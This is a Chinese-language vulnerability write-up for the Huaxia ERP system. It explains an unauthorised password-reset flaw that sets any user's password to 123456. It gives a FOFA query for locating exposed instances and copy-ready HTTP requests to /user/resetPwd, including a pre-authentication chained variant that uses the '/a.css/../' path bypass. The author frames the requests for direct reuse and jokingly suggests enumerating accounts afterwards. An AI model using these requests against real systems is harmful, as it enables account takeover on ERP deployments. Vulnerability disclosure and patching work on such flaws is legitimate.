




## 华夏ERP越权任意用户密码重置漏洞

## 漏洞描述

华夏ERP基于SpringBoot框架和SaaS模式，可以算作是国内人气较高的一款ERP项目，但经过源码审计发现其存在多个漏洞，本篇为越权任意用户密码重置漏洞

## 漏洞影响

> 华夏ERP

## FOFA

> title="华夏ERP"

## 漏洞复现

一、越权任意密码重置漏洞

------

漏洞简单描述：

```
该项目利用id重置相应用户密码，且未做权限划分, 重置后为123456，漏洞代码位置为：
```

```
src/main/java/com/jsh/erp/controller/UserController.java
```




测试漏洞的时候，我们先使用测试账号登录进后台，然后获取到所有用户list



发现主管大大的ID为63，那我们就可以把他的密码重置掉：



知道你们懒得敲，复制一下：

```
POST /user/resetPwd HTTP/1.1
Host: 47.116.69.14
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.72 Safari/537.36 Edg/89.0.774.45
X-Requested-With: XMLHttpRequest
Referer: http://47.116.69.14/pages/reports/account_report.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Cookie: JSESSIONID=D735ED1C9E200438866A79896DF1F77D;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

id=63
```

从上面的源码中可以看到，重置后的默认密码为123456


二、组合拳-前台任意用户密码重置漏洞

------

那么实战中怎么可能有测试账号给你登录后台呢，弱口令？爆破？只不过很少时候是yyds，那么我们就可以结合上一篇中的授权绕过漏洞打个组合拳。

我们从前台随便重置一个ID的密码：



```
POST /a.css/../user/resetPwd HTTP/1.1
Host: 47.116.69.14
Content-Length: 8
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36 Edg/85.0.564.60
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://47.116.69.14
Referer: http://47.116.69.14/pages/manage/user.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,pl;q=0.5
Connection: close

id=90824
```

这时候肯定有人要问了，密码是给重置成123456了，那怎么知道账户是什么？？

(⊙o⊙)…阿这，枚举一下子？然后全试一遍？哈哈哈不管了，反正不是我实战，就是这么不负责~